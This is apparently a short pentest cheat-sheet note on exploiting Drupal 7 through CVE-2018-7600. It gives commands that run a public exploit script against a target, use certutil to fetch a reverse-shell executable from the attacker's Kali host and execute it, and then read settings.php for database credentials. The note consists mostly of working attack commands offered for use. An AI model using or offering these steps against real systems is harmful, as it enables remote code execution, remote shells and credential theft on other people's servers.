 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Drupal 7
https://github.com/pimps/CVE-2018-7600

There are 2 python files, try each, one may work, one may not.

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c whoami
```

[[1._Reverse Shells (WIN)#MSFVenom]]

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "certutil -urlcache -split -f http://$KALI/reverse64.exe"
```

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "reverse64.exe"
```


#### Check for settings.php for creds
```bash - kali
cat /var/www/html/sites/default/settings.php
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
